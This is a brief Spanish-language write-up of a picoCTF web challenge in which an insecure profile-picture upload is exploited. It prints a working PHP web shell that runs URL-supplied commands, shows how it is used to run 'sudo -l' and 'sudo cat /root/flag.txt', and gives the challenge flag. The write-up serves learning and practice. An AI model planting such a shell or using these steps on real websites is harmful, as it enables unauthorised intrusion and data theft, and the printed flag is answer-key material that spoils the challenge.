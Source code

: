 DESCRIPCION:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.


solucion:
en este reto es usar lo que no se explico a fondo en trickster, que es subir un archivo malintencionado, en este caso fue un codigo que abre una shell en php cuando se quiere abrir en el navegador...

<?php
if(isset($_GET['cmd'])){
        echo "<pre>";
        system($_GET['cmd']);
        echo "</pre>";
}
?>

al usarlo es <URL>/test.php?cmd=sudo -l
yo puse que el archivo se llama test.php, y la pagina lo subio sin problema, aqui es donde entramos al sistema, es ir a ciegas con los comandos de la shell

primero aplicamos un sudo -l, nos dice que no ocupamos contraseña para hacer comandos sudo, en las pistas del reto decia que la bandera estaba ubicada en root y dentro habia un archivo flag.txt

asi que hice ?cmd=sudo cat /root/flag.txt y la bandera sale

no podemos movernos de directorio pero si podemos abrir lo que queramos

picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}